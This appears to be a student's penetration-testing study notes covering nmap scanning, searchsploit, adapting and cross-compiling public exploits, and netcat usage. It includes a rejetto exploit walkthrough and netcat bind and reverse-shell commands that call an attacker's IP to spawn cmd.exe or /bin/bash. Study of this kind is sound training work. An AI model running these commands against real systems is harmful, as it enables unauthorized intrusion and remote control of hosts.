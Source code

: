 Note: Alot of exploits are found in the other folders too so dont rely on this alone

## Intro

1. Vuln scanning
2. Exploit searching
3. Fixing exploits
4. Bind & reverse shells
5. Exploit Frameworks
6. Windows exploit
7. Linux exploit
8. AV Evasion and Obfuscation


# Vuln scanning
### banner grabbing
- can get service info

Demo:
Some nmap script
`ls -al /usr/share/nmap/scripts/ | grep banner`
`nmap -sV --script=banner <ip>` -> done in -sV

`nc <ip>` -> same stuff but sometimes nmap sV dont work

### nmap scripts
Demo:
`ls -al /usr/share/nmap/scripts |grep http` -> limit to only http scripts

See the documentation on scripts
`nano /usr/share/nmap/scripts/http-enum.nse`

For this demo
`ls -al /usr/share/nmap/scripts |grep shellshock`

`nmap -sV <ip> --script=http-shellshock --script-args="http-shellshock.url=/gettime.cgi"`

### Metasploit

demo:
/smb/smb_ms17_010


## Searching for publicly available exploits

- get code from verified sources (anyone can set a github)
- epxloitDB / Rapid7 

#### ExploitDB
- maintained by a team from kali
- search types/platforms/authors/ports/tags(type of vuln) etc

#### Rapid7
- vetted. Same as before

#### Google Dorks it
- vsftpd site:rapid7.com

#### Data storm
- Info on latest news and new exploits etc

### Searchsploit
- locally available db for exploits
`sudo apt-get update && sudo apt-get install exploitdb -y`

Should update it frequently
`searchsploit -u`

Exploits stored here
`ls -al /usr/share/exploitdb`

`searchsploit vsftpd 2.3.4`
`searchsploit -m 49757` -> get info about the exploit and copies it to ur current dir

Filters like in the exploitdb site:
`searchsploit remote windwos smb`


Xtra:
`searchsploit -t vsftpd`
-> search in title

`searchsploit -e "Windows XP" | grep -e "Microsoft Windows XP"
-> exact match

`seachsploit remote windows smb -w | grep -e "EternalBlue"`
-> -w gives the online link to read more about each exploit


## Fixing exploits
- All publicly available exploits need to be edited to suite ur needs

Demo:
rejetto
`searchsploit rejetto`
`searchsploit -m <exploit id>`

Edit the exploit code to use (eg change ip/port)
`vim <exploit.py>`
This exploit needed nc.exe to be hosted on your local server to run on the target

Attacker
`cp /usr/share/windows-resources/binaries/nc.exe`
-> Copy it to the home directory to share 
`python -m SimpleHTTPServer 80`

Attacker (another terminal)
`nc -lvnp 1234`

Attacker (3rd terminal terminal)
`python 29161.py <targetip> 80`

Run a few times.should work
`systeminfo`


### Cross-compiling exploits
- need to compile C/C++ exploit code
- Using Linux to compile windows exploits (cross-compiling)

Demo:
For creating Microsoft Windows portable executables in linux
`sudo apt-get install mingw-w64`

For C code in Linux
`sudo apt-get install gcc`

Note: Better to get the 32bit exploits more compatible

#### If no documentation of how to compile
Compiles to a 64bit executable
`i686-w64-mingw32-gcc 9303.c -o exploit`

Compiles to a 32bit executable
`i686-w64-mingw32-gcc 9303.c -o exploit -lws2_32`

#### Dirty cow exploit
- Has good documentation on how to use/compile
`gcc -pthread 4089.c -o exploit -lcrypt`

Last:
github exploitdb-bin-sploits/bin-sploits has some precompiled binaries if needed


## Bind/Reverse Shells

## Netcat
- located in /usr/share/windows-binaries
- 2 modes:
	- Client mode: Connect to the target directly 
	- Server mode: Listen for connections from the target (-l)
`nc <ip>:<port>`
`nc -lvnp <port>`

Note: 
UDP also possible -u
-v verbose
-n no dns resolution (doesnt change the ip/name to something else)

Uses:
banner grabbing, reverse/bind shells, file transfers

Demo: 
- Chat terminal 
system1:
`nc -lvnp 80`

system2:
`nc -nv <system1 ip> 80`

Works in UDP too o.o but unreliable`
system1:
`nc -lvnup 80`

system2:
`nc -nvu <system1 ip> 80`

Transfer files
system2:
`nc - nv <sys1 ip> 80 < test.txt`


## Bindshells
- Attacker conect to a listener on the target 
Attacker ---(connection req)-----> Target Listener

- Listener can be set to exec /bin/bash or cmd.exe on the client when a client connects
`nc -lnvp 1234 -e cmd.exe`
`nc -lnvp 1234 -e /bin/bash`
`nc -lnvp 1234 -e /bin/sh` --> bash with less features can even use /bin/zsh

On linux
`nc -lnvp 1234 -c /bin/bash` --> can use -e also but c is reserved for linux?

- Attacker
`nc -nv <target ip> 1234` --> the shell should spawn


#### IMPT
- inbound traffic can be blocked by firewall preventing clients to connect (Reverse shell preferred)

Cool: 
`python -m SimpleHTTPServer 80` 
Files can be assesed using the web browser and show the files (basically a web file server) --> usually just curl/certutil/wget

## Reverse Shell
- Target connects to listener on the Attackers system
- IP of attacker is leaked oops

Good stuff:
- Not blocked by firewall
- Can use any sort of client to connect to the listener (can use bash/python/php/powershell script no need nc)
- ^ live off the land , if theres php use php if python use python etc


Attackers listener:
`nc -lnvp 1234`

Target connects as client and launch shell:
`nc -nv <attackers ip> 1234 -e cmd.exe`

## Reverseshell cheat sheet 
- get your payload (clients) to connect to a listener (attacker)

payloadallthings github
revshells.com







